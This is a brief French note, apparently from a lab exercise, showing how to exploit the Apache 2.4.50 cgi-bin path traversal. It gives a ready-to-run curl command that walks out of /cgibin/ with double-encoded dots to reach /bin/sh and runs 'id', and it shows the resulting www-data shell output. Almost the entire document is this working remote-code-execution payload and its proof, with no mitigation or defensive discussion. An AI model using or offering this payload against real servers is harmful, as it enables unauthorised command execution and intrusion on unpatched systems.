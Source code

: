 # Exploit CGIBIN

## exemple par @CHIRICAI

Sur internet on recherche la vulnérabilité « apache 2.4 50 ».
On trouve un script à télécharger, on récupère un script qu’on injecte comme ci-dessous :

```shell
curl "http://10.42.4.36/cgibin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh" -d "echo;id"
```

réponse:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
